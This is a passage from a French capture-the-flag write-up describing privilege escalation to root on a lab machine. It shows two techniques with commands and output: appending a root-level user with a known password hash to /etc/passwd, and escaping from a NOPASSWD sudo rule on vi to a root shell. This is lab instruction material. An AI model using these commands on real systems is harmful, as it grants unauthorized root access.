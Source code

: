 ```plain
$ echo 'user9:$1$user9$JUQJ5MIu8N.kJJmfhHrfc0:0:0:/root:/bin/bash' >> /etc/passwd
```

Plus qu'à se connecter avec nos nouveaux identifiants (*user9 / s3cr3t*) :

```plain
$ su user9
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```

User8 vers root
---------------

```plain
user8$ id
uid=1007(user8) gid=1007(user8) groups=1007(user8)
user8$ sudo -l
Matching Defaults entries for user8 on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on osboxes:
    (root) NOPASSWD: /usr/bin/vi
user8$ sudo /usr/bin/vi

--- une fois dans Vi on tape :!sh<entrée>

# id
uid=0(root) gid=0(root) groups=0(root)
```

Tous les chemins mènent à root
------------------------------

CTF très classique et basique, quelques privesc originales auraient été les bienvenues.

*Published July 09 2019 at 18:06*
